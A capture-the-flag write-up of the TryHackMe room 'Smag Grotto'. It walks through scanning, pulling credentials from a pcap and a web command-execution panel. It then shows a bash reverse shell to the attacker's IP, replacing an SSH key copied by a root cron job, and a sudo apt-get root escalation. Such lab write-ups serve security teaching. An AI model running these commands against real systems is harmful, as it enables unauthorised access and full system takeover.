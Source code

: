 ```yaml
---
layout: post
title: "Smag Grotto"
date: 2022-10-21
categories: [Tryhackme, Easy-THM]
tags: [pcap, /etc/hosts, Command-Injection, ssh-keygen, sudo, apt-get, GTFObins]
image: ../../assets/img/posts/smaggrotto.png 

---
```


## Description

Follow the yellow brick road.

|**Room**|[Smag Grotto](https://tryhackme.com/room/smaggrotto)|
|:---:|:---:|
|**OS**|Linux|
|**Difficulty**|Easy|
|**Creator**|[jakeyee](https://tryhackme.com/p/jakeyee)|

---

Starting off with deploying the machine and quickly scanning the open ports with rustscan,

```bash
rustscan -a 10.10.43.182 --ulimit 5000
```

![image](https://user-images.githubusercontent.com/67465230/186833123-389ab342-2bb6-4e14-9dfc-c39a49eaa191.png)

We got the open ports and now we can scan them in detail using nmap,

```bash
nmap -sC -sV -p22,80 10.10.43.182 -oN nmap.txt
```

![image](https://user-images.githubusercontent.com/67465230/186833163-672495df-1b14-47d0-95e7-5a04cd5a912b.png)

Result scan shows that port 22 is running ssh service, port 80 is running apache webserver. Let's start enumerating port 80.

Visit http://10.10.43.182,

![image](https://user-images.githubusercontent.com/67465230/186833198-6097bbbb-bddf-43e8-b43a-52b3d5f701e0.png)

we got a welcome message after landing on the website. Enumerating webpage and source code page doesn't reveal anything so I decided to use gobuster to fuzz directories,

```bash
gobuster dir -u http://10.10.43.182 -w /usr/share/seclists/Discovery/Web-Content/common.txt -q 2>/dev/null -o gobuster.log
```

![image](https://user-images.githubusercontent.com/67465230/186833221-c41a6c2a-f6a7-4254-891c-785128d816b5.png)

we got index page and a **mail** directory. Let's check it what's out there.

Visit http://10.10.43.182/mail,

![image](https://user-images.githubusercontent.com/67465230/186833295-19538edc-fe24-44d5-8ab3-8118b0428f95.png)

and we got a page where we got some mails left by the developers, and a _pcap_ file (file which can be used by wireshark for analysis).

Checking the source code and there I found the correct path of the file,

![image](https://user-images.githubusercontent.com/67465230/186833338-0832d705-a3f7-434c-b602-9a5c676fa4fd.png)

Using the `wget` command provided the url of the file, the file can be download,

```bash
wget http://10.10.43.182/aW1wb3J0YW50/dHJhY2Uy.pcap
```

![image](https://user-images.githubusercontent.com/67465230/186833377-2c9228dc-23a0-4add-9418-c8c4419c8d5b.png)

Opening the file in wireshark for analysis and after going through number of requests, there is a POST request which piqued my interest,

![image](https://user-images.githubusercontent.com/67465230/186833410-9e36855e-3bf6-468f-be8d-f47f8b92c0a4.png)

Following its TCP stream, 

![image](https://user-images.githubusercontent.com/67465230/186833456-02db0097-2b4c-4fa3-bf4c-0fcc8e593f89.png)

we got a sub-domain named _development.smag.thm_ and _username & password_.

Now what we can do here is to resolve the domain name into IP address by adding the sub-domain and corresponding IP address in /etc/hosts file,

```bash
10.10.43.182	development.smag.thm
```

![image](https://user-images.githubusercontent.com/67465230/186833478-97695f66-a66b-4361-abff-a002bc919d4b.png)

Now, visit http://development.smag.thm,

![image](https://user-images.githubusercontent.com/67465230/186833515-0742684a-a5ce-4636-aec3-854a28001c2e.png)

we got a open directory which contains pages like admin.php, login.php and a css files.

Visiting http://development.smag.thm/login.php,

![image](https://user-images.githubusercontent.com/67465230/186833557-0bc1ae2f-9f3f-4a0c-8a79-b4c0234cb6ff.png)

We landed on a login page where we need to provide the credentials in order to get into web application.

Providing the credentials we found earlier,

![image](https://user-images.githubusercontent.com/67465230/186833608-d5d9aa4c-dbeb-4805-9a0d-ca56610aca4c.png)

we got in! and it seems like we got a Command Execution functionality (this can be very bad!!). 

After executing commands like `id`, `whoami`, there is nothing much I got. So now, we can try to trigger a reverse shell by first start listener using `nc -nvlp 4444` and then execute one-liner bash reverse shell script,

```bash
bash -c 'exec bash -i &>/dev/tcp/10.9.2.86/4444 <&1'
```

We got the shell,

![image](https://user-images.githubusercontent.com/67465230/186833649-33e32e63-d56f-411c-9551-24243e30694c.png)

But since we got an under-privilege shell, we can improve this using sequence of commands,

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
CTRL+Z
stty raw -echo; fg
stty rows 38 columns 116
```

Enumerate jake user directory and we got the user flag,

![image](https://user-images.githubusercontent.com/67465230/186833685-5aa5257e-fb02-4c10-8e66-9f1cc9bad2cc.png)

we get "Permission Denied" error while reading the user flag meaning we need to elevate our privileges to higher level user in order to read this flag.

After enumerating there is a cronjob running on the system as root user,

```bash
cat /etc/crontab
```

![image](https://user-images.githubusercontent.com/67465230/186833714-f69520ee-dd26-499f-9db2-a4f7763ec77f.png)

Looks like jake’s ssh public key is copied from a backup directory to *authorized_keys*. This gives us the opportunity to access the machine by generating our own ssh key and replacing jake’s.

Now, we first generate RSA ssh key on our machine,

```bash
ssh-keygen -t rsa
```

![image](https://user-images.githubusercontent.com/67465230/186833748-b8904141-7c8c-40d8-8009-eb57be344e39.png)

this will generate pair of id_rsa key, i.e. a private id_rsa key and a public id_rsa key with *.pub* extension.

Now we can echo our public key into backup directory replacing jake's key,

```bash
echo "<jake.pub>" > /opt/.backups/jake_id_rsa.pub.backup
```

Now, we can login as jake user using our private id_rsa key,

```bash
ssh -i jake jake@10.10.84.69
```

![image](https://user-images.githubusercontent.com/67465230/186833847-cf233da8-755d-4b21-9e1a-75a09923c657.png)

Enumerating directory and now we can read the user flag,

![image](https://user-images.githubusercontent.com/67465230/186833974-b88464d0-4d80-43a0-87da-af576edd044f.png)

Now comes the privilege escalation part where we are just listing all binaries which we can run as `sudo`,

```bash
sudo -l
```

![image](https://user-images.githubusercontent.com/67465230/186834045-e165c3c4-deeb-466c-ab68-ff66be811457.png)

we can see that */usr/bin/apt-get* binary can be run as sudo which can elevate our privileges to root user.

We can take a look at [apt get | GTFOBins](https://gtfobins.github.io/gtfobins/apt-get/) method to achieve the above result,

![image](https://user-images.githubusercontent.com/67465230/186834074-929530b3-0689-43d0-96b0-6cbad725d35c.png)

Running the command and we got the root access,

```bash
sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh
```

![image](https://user-images.githubusercontent.com/67465230/186834104-34603ae6-663f-426b-99c1-d28b980d6a3e.png)

> Q. What is the command above doing?
>> A. When the above command runs, or specifically the apt-get binary runs as sudo, the update command is actually executed after the shell exits.